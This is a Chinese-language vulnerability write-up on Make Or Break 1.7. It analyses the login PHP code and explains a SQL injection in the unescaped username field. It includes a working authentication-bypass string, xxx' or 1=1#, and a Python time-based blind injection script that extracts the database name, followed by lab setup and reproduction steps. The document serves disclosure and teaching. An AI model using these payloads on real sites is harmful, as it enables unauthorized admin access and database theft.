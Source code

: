 # <center>Make Or Break 1.7 SQL Injection And Authentication Bypass</center> #

<center>![maccms](pictures/makeorbreak.png)</center>

## 1.&emsp;漏洞描述 ##

* 漏洞简述： 由于Friends in War Make or Break 1.7在处理用户输入的参数的时候没有施加有效的过滤防护措施，导致任意用户可以在不知道用户名密码的时候进入后台，并且可以脱裤。
* 影响版本： Friends in War Make or Break 1.7

## 2.&emsp;漏洞简介 ##

&emsp;&emsp;Make Or Break是一个图片的管理平台。

&emsp;&emsp;该漏洞主要的产生原因是参数过滤不严格导致的sql注入和后台任意账户登录漏洞。

## 3.&emsp;漏洞分析 ##

&emsp;&emsp;根据漏洞的位置我们可以看`ip:port/admin/login.php`文件的源码  
	
![codiad](pictures/1.png)


&emsp;&emsp;可见`POST`参数会传递给`include/checklogin.php`文件。我们再看看该文件的内容。  

	session_start(); // Start a new session
	require('../../config.php'); // Holds all of our database connection information
	
	mysql_connect("$host", "$username", "$password")or die("cannot connect to the database."); 
	mysql_select_db("$db_name")or die("cannot select the database.");
	
	$result = mysql_query("SELECT * FROM ".$prefix."settings WHERE id = 1");
	while($row = mysql_fetch_array($result)) {
		$pagename = $row['pagename'];
		$template = $row['template'];
	}
	
	// Get the data passed from the form
	$username = $_POST['username'];
	$password = $_POST['password'];
	
	// Do some basic sanitizing
	$username = stripslashes($username);
	$password = stripslashes($password);
	
	$password = str_replace("'", "''", $password);
	
	$sql = ("select * from ".$prefix."admin where username = '$username' and password = '$password'");
	$result = mysql_query($sql) or die ( mysql_error() );
	
	$count = 0;
	
	while ($line = mysql_fetch_assoc($result)) {
		 $count++;
	}
	
	if ($count == 1) {
		 $_SESSION['loggedIn'] = "true";
		 header("Location: ../index.php"); // This is wherever you want to redirect the user to
	} else {
		 $_SESSION['loggedIn'] = "false";
		 header("Location: ../login.php"); // Wherever you want the user to go when they fail the login
	}
	
	?>


首先我们输入的用户名和密码会传递给`$username`和`$password`变量，接着会对两个变量进行简单的过滤（去除斜杠，不重要因为利用的时候并没有用到斜杠），在下面就是：

	$password = str_replace("'", "''", $password);

将`$password`变量的单引号替换成2个单引号，但是并没有对`$username`变量进行单引号处理，从而导致sql注入的出现。再看看数据库连接语句。

	$sql = ("select * from ".$prefix."admin where username = '$username' and password = '$password'");

当我们构造如下语句的时候：  

	//$username = xxx' or 1=1#
	//$password = anything
	$sql = ("select * from ".$prefix."admin where username = 'xxx' or 1=1#' and password = 'anything'");  

由于#在sql语句里面是注释的意思，也就是说sql语句最终是：  

	select * from ".$prefix."admin where username = 'xxx' or 1=1#

因为这个语句的执行结果是正确的：  

![codiad](pictures/2.png)

在登录页面Username表单填入`xxx' or 1=1#`而Password表单任意填，即可登录后台：

![codiad](pictures/3.png)

既然存在注入点，那就可能拿到数据库的信息！这里我们尝试用盲注的方式拿到数据库的名称，脚本如下：  

	#!/bin/bash python
	#!coding=utf-8
	import requests
	
	#慢速就是代表正确
	#select * from mob_admin where username='admi' or if((ascii(mid(database(),1,1)) like 97),sleep(2),0);
	
	payloads = list('1234567890qwertyuiopasdfghjklzxcvbnm{}QWERTYUIOPASDFGHJKLZXCVBNM')
	url = 'ip:port/admin/include/checklogin.php'
	username = ''
	
	for i in xrange(1,39):
		for payload in payloads:
			poc = "adin\' or if((ascii(mid(database(),%s,1)) like %s),sleep(3),0)#" %(i, ord(payload))
			postpay = {'username':poc, 'password':'111', 'Submit':'Admin+Login'}
			try:
				r = requests.post(url, data=postpay, timeout=2)
			except Exception as e:
				username += payload
				print username
				break
				
	#print username;
	# print(u' '.join(r.text).encode('utf-8'))

执行效果：  

![codiad](pictures/4.png)


## 4.&emsp;靶场环境搭建 ##

### 4.1&emsp;环境源码下载 ###

下载相应版本[Make Or Break 1.7](http://software.friendsinwar.com/downloads.php?cat_id=2&file_id=9 "Make Or Break 1.7")  

### 4.2&emsp;安装和配置Make Or Break ###

* 在Linux下直接安装Apache+php5环境，然后将源码导入到/var/www/html文件夹下。
* 启动Apache服务，在浏览器直接访问服务器安装地址`ip:port/install/index.php`，进入安装页面。配置好Make Or Break需要的环境  



### 4.3&emsp;漏洞复现（SQLI） ###

1.访问Make Or Break后台页面`ip:port/admin/login.php`  

2.Username填入`xxx' or 1=1#`Password任意填。

3.运行poc验证漏洞存在。  

## 5.&emsp;修复意见 ##

&emsp;&emsp;添加过滤函数  
